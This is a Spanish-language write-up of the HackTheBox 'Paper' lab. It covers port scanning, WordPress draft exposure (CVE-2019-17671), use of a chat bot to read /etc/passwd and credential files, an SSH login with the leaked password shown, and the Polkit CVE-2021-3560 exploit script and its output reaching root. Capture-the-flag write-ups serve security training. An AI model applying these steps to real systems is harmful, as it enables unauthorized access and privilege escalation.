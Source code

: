 ```yaml
---
title: HackTheBox - Paper
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress Drafts (CVE-2019-17671)', 'ByPass Bot Restriction', 'Polkit (CVE-2021-3560)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Paper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Paper Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Wordpress Drafts (CVE-2019-17671), ByPass Bot Restriction, Polkit (CVE-2021-3560)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Paper/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Paper/02-versions.png)

* Para conocer más del sistema web usaremos **whatweb**

    ```bash
    ❯ whatweb 10.10.11.143
    http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
    ```
    > Lo más relevante de esta información es ver un host **office.paper**, así que lo añadimos al /etc/hosts

c. Al visitar ese nuevo host veremos un Wordpress y al ir investigando veremos este comentario

![](/assets/images/HTB/Easy/Paper/03-comment.png)


> El comentario de arriba, menciona algo sobre la existencia de una secreto en los **drafts** (borradores)
{: .prompt-info }

* Al investigar sobre alguna vulnerabilidad asociada a esto llegamos a [CVE-2019-17671](https://www.exploit-db.com/exploits/47690), aquí nos dicen que inyectando un sentencia podemos llegar a ver borradores

    ![](/assets/images/HTB/Easy/Paper/04-draft.png)

* Añadimos el nuevo dominio al fichero /etc/hosts. Lo visitamos y registramos una cuenta

d. Leyendo mensajes anteriores de este chat detectamos un bot **recyclops**

![](/assets/images/HTB/Easy/Paper/05-bot.png)

* La funcionalidad más relevante es la de leer y listar ficheros. Para interactuar con el bot le enviamos mensajes directos

![](/assets/images/HTB/Easy/Paper/06-chat.png)

e. Leemos el archivo /etc/passwd para ver los usuarios en el sistema. Después, vemos archivos que puedan tener credenciales

![](/assets/images/HTB/Easy/Paper/08-passwd.png)

![](/assets/images/HTB/Easy/Paper/09-file.png)

* Estas credenciales son válidas para el servicio ssh 

    ```bash
    ❯ ssh dwight@10.10.11.143
    dwight@10.10.11.143's password: Queenofblad3s!23
    [dwight@paper ~]$
    ```


### Escalada de Privilegios 💹

a. En este [articulo](https://vk9-sec.com/cve-2021-3560local-privilege-escalation-polkit-0-105-26-0-117-2/) mencionan sobre la escalación de privilegios vía **Polkit**

* Copiamos el fichero [poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) y lo guardamos en la máquina víctima

    ```bash
    [dwight@paper ~]$ ./poc.sh 

    [!] Username set as : secnigma
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was succesful!
    [!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
    [dwight@paper ~]$ su secnigma
    Password: secnigmaftw
    [secnigma@paper dwight]$ sudo bash
    [sudo] password for secnigma: secnigmaftw
    [root@paper dwight]#
    ```

    > Debemos ejecutar este script varias veces hasta que funcione.
    {: .prompt-tip }